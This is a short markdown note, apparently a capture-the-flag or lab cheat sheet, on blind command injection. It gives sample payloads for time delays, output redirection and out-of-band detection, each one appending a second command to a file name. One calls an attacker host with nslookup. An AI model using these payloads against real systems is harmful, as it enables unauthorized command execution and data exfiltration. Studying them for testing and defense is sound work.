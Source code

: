 # Blind Command Injection Pocs

### 1. Time delays:

![image](https://user-images.githubusercontent.com/61876488/139537900-93a03486-f29f-4918-a1cc-707703e26cea.png)

Sample payload: `flag.txt & ping -c 20 <domain/ ip of attacker> &`

### 2. Redirecting output:

![image](https://user-images.githubusercontent.com/61876488/139538293-b20d50c2-eb6a-45a9-b35d-830fa38849aa.png)

Sample payload: `flag.txt & <command> > log.txt &`

### 3. Out-of-band:

![image](https://user-images.githubusercontent.com/61876488/139538515-f8e02364-bfb7-4500-b25b-fd1d84a8af90.png)

Sample payload: `flag.txt & nslookup <domain/ ip of attacker> &`
